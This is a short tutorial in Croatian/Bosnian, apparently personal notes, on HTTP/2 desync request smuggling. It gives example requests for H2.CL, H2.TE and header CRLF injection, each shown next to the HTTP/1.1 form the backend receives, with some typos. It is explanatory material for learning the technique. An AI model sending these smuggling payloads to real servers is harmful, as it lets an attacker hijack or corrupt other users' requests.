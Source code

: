 HTTP/2 Desync

Desync exploitacija se događa kada komuniciramo sa frontendom preko HTTP/2, a međusobno backend i frontend rade preko HTTP/1.1

H2.CL
Do exploitacije content lenghta dolazi kada se http/2 request snižava na http/1.1 gjde kada procita COntent-Length 0 i odvoji u dodatnu poruku.
Primjer poruke:
------------------------------------
HTTP/2.0
:mtehod POST
:path /
:scheme https
:authority google.com
user-agent Mozilla/5.0
content-length 0
HELLO

se salje na frontend i onda frontend to prevara u http 1.1
Primjer onoga sto backend dobije sa frontenda:
----------------------------------------------------
POST / HTTP/1.1\r\n
Host: google.com\r\n
User-Agent: Mozilla/5.0\r\n
Content-Length: 0\r\n
\r\n
(U novom paketu)
HELLO

Obratite poznrost da nakon HELLO nema \r\n, i to znaci da iduca poruka koja ce doci ce biti dodana na taj HELLO i biti odbacena
Primjer iduce legitimne poruke:
HELLOGET / HTTP/1.1\r\n
...

H2.TE
Ovo je eksplotacija koja se bazira na Transfer-Encoding: chunked headeru.
Primjer poruke:
------------------------------------
HTTP/2.0
:mtehod POST
:path /
:scheme https
:authority google.com
user-agent Mozilla/5.0
transfer-encoding chunked
0\r\n
\r\n
GET /other HTTP/1.1\r\n
Foo: s

I nakon toga backend to procesira ovako:
POST / HTTP/1.1\r\n
Host: google.com\r\n
User-Agent: Mozilla/5.0\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
(U novom paketu)
GET /other HTTP/1.1\r\n
Foo: s

I kada novi korisnik posalje poruku njegov prvi redak ce se nadodati na header koji se ne koristi i izgledati ce ovako:

GET /other HTTP/1.1\r\n
Foo: sGET /otherSite HTTP/1.1\r\n
....

CRLF injection
CR je Carriage Return i explot se bazira na tome da se kreira zaglavlje koje sadrzi neki tekst i kada se pretvara u 1.1 on ga ne stavi pod jedan header nego ga nepravilno formatira.
Zbog toga se uzima samo prvi "redak" teksta u headeru i ostatak se samo napise kao plaintext izvan tog headera.

Primjer:
----------------------------------------------
HTTP/2.0
:mtehod POST
:path /
:scheme https
:authority google.com
user-agent Mozilla/5.0
Foo bar\r\n Content-Length:0\r\n\r\nGET /other HTTP/1.1\r\nX:x

I backend dobiva ovakve pakete:

POST / HTTP/1.1\r\n
Host: google.com\r\n
User-Agent: Mozilla/5.0\r\n
Foo: bar\r\n
Content-Length: 0\r\n
\r\n

(U novom paketu)
GET /other HTTP/1.1\r\n
X:x